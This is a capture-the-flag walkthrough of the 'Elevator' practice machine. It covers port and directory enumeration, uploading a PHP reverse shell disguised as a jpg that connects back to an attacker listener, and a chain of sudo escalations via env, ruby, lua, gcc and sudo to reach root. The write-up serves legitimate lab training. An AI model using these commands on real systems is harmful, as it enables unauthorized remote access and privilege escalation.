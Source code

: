 # Elevator Machine

**Level:** Easy

**Author:** [beafn28](https://www.linkedin.com/in/beatriz-fresno-naumova-3797b931b/)

------------------
## Scanning & Enumeration 

We perform a general scan with **nmap** on the victim machine's IP to identify the open ports. 

```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

Next, we use **nmap** default scripts to gather more information about the discovered ports:

```shell
nmap -sCV -p80 172.17.0.2
________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-server-header: Apache/2.4.62 (Debian)
|_http-title: El Ascensor Embrujado - Un Misterio de Scooby-Doo
```

We access the website to inspect its content:

![image](https://github.com/user-attachments/assets/638d5eea-f884-48ff-a8a7-81d2d60049f3)

![image](https://github.com/user-attachments/assets/a4b792c1-8d57-4eb1-b3a4-6dac127a1c68)

![image](https://github.com/user-attachments/assets/09a22ca9-37fc-497b-82bc-6aa3b6855238)

After reviewing the page code and interacting with it, we found relevant information such as usernames: **daphne**, **velma**, **scooby**, **shaggy**

We perform **fuzzing** using **gobuster**:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 20 -x html,php,txt -s 200,301 -b ''
---------------------------------------------------------------------------------
/index.html           (Status: 200) [Size: 5647]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/themes               (Status: 301) [Size: 309] [--> http://172.17.0.2/themes/]
```

We identified the **javascript** and **themes** directories. After reviewing them, we encountered an unauthorized error and performed further **fuzzing**:

```shell
gobuster dir -u http://172.17.0.2/themes/ -w /usr/share/seclists/Discovery/Web-Content/common-and-spanish.txt -t 20 -x html,php,txt -b '' -s 200,301
---------------------------------------------------------------------------------
/archivo.html         (Status: 200) [Size: 3380]
/upload.php           (Status: 200) [Size: 0]
/uploads              (Status: 301) [Size: 317] [--> http://172.17.0.2/themes/uploads/]
```

We discovered the **archivo.html** and **upload.php** files and the **uploads** directory.

--------------
## Explotation

On reviewing the **archivo.html** page, we realized the form allows **jpg** uploads:

![image](https://github.com/user-attachments/assets/55b5577e-1995-4d60-97eb-15fe5b20ac0f)

We prepare the [PHP Pentester monkey reverse shell](https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash) and save it as a **jpg** file. 

Notice that we set the **172.17.0.1** and **4444** as the **IP** and **PORT** for the listener.

```shell
wget -O reverse.jpg 'https://www.revshells.com/PHP%20PentestMonkey?ip=172.17.0.1&port=4444&shell=%2Fbin%2Fbash&encoding=%2Fbin%2Fbash'
Saving to: ‘reverse.jpg’
reverse.jpg [ <=> ]   2.53K  --.-KB/s    in 0s      
2024-12-26 21:09:41 (5.82 MB/s) - ‘reverse.jpg’ saved [2590]
```
![image](https://github.com/user-attachments/assets/1872f317-00b9-48e5-ba2c-9710558af290)

![image](https://github.com/user-attachments/assets/7b56e3c0-1b5c-43c2-87eb-4d40213b32b8)

We start a **listener** for the reverse shell using **netcat**: 

```shell
nc -lvnp 4444 
-------------------------------------------------------------------
listening on [any] 4444 ...
```

Next, we execute the **reverse shell** by uploading the **jpg** file through the **upload.php** link, gaining a shell on the victim's machine:

```shell
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 43592
Linux 36ae1fa1a512 6.6.9-amd64 #1 SMP PREEMPT_DYNAMIC Kali 6.6.9-1kali1 (2024-01-08) x86_64 GNU/Linux
 02:37:38 up  6:20,  0 user,  load average: 0.10, 0.10, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell
www-data@36ae1fa1a512:/$ 
```
------------------------------
### TTY configuration

We configure the **TTY** for comfortable operation on the console:

```shell
script /dev/null -c bash 
```
After pressing **Ctrl  +  Z**, execute:

```shell
stty raw -echo; fg
reset xterm
stty rows 35 columns 156
export TERM=xterm
export SHELL=bash
```

Adjust **rows** and **columns** to match the attacker's screen dimensions:

```shell
stty size
```

Now you can use **Ctrl+L** to clear the screen and **Ctrl+C** as needed.


------------------------------
## Privileges escalation

We use **sudo -l** to check if we can execute anything as **root**:

```shell
sudo -l
------------------------------------------------
User www-data may run the following commands on 36ae1fa1a512:
    (daphne) NOPASSWD: /usr/bin/env
```

We can run **env** as the **daphne** user using [GTFOBins for env](https://gtfobins.github.io/gtfobins/env/#sudo)

```shell
sudo -u daphne env /bin/bash
```

Repeat the **sudo -l** command to escalate privileges step by step until achieving root access:

```shell
sudo -l
------------------------------------------------
User daphne may run the following commands on 36ae1fa1a512:
    (vilma) NOPASSWD: /usr/bin/ash
```


```shell
sudo -u vilma ash
```

```shell
sudo -l
------------------------------------------------
User vilma may run the following commands on 36ae1fa1a512:
    (shaggy) NOPASSWD: /usr/bin/ruby
```

[GTFOBins for ruby](https://gtfobins.github.io/gtfobins/ruby/#sudo)

```shell
sudo -u shaggy ruby -e 'exec "/bin/bash"'
```

```shell
sudo -l
------------------------------------------------
User shaggy may run the following commands on 36ae1fa1a512:
    (fred) NOPASSWD: /usr/bin/lua
```

[GTFOBins for lua](https://gtfobins.github.io/gtfobins/lua/#sudo)

```shell
sudo -u fred lua -e 'os.execute("/bin/bash")'
```

```shell
sudo -l
------------------------------------------------
User fred may run the following commands on 36ae1fa1a512:
    (scooby) NOPASSWD: /usr/bin/gcc
```

[GTFOBins for gcc](https://gtfobins.github.io/gtfobins/gcc/#sudo)

```shell
sudo -u scooby gcc -wrapper /bin/bash,-s .
```

```shell
sudo -l
------------------------------------------------
User scooby may run the following commands on 36ae1fa1a512:
    (root) NOPASSWD: /usr/bin/sudo
```

[GTFOBins for sudo](https://gtfobins.github.io/gtfobins/sudo/#sudo)

```shell
sudo sudo /bin/bash
```

Finally, we gain root access:

```
whoami
----------------
root
```
